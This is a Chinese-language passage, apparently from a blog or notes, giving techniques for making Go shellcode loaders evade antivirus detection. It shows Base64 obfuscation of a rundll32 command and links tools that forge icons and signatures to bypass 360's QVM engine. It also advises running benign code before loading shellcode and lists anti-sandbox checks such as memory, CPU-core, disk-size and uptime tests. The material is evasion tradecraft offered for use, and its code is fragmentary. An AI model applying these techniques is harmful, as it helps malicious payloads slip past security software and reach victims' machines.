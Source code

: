 关键字符串进行Base64编码，并在相应位置替换变量值

```go
encodedCommand := "cnVuZGxsMzIuZXhl"  
encodedArguments := "MTExTdGFydA=="  
  
// 解码Base64编码的命令和参数  
decodedCommand, _ := base64.StdEncoding.DecodeString(encodedCommand)  
decodedArguments, _ := base64.StdEncoding.DecodeString(encodedArguments)  
  
cmd := exec.Command(string(decodedCommand), string(decodedArguments))
```

## QVM绕过

### 添加资源

1、添加图标签名版权等信息内容，可使用以下项目一键添加

https://github.com/Pizz33/360QVM_bypass
https://github.com/S9MF/my_script_tools/tree/main/360QVM_bypass-public
https://github.com/langsasec/Sign-Sacker

### 行为特征

运行直接加载shellcode，一般会直接报qvm病毒

先执行正常行为再进行shellcode加载，qvm无报毒，以下是示例，可根据实际情况进行调整

```go
func main() {  
    num1 := 5  
    num2 := 3  

    result := 0  
 
    // 使用for循环来进行乘法运算  
    for i := 0; i &lt; num2; i++ {  
        result += num1  
    }  
```

## 反沙箱技巧

- - 使用质数运算延迟执行

  - 检测系统开机时间是否大于某个设定值

  - 检测物理内存是否大于4G

  - 检测CPU核心数是否大于4

  - 检测文件名是否修改

  - 检测磁盘大小是否大于100G
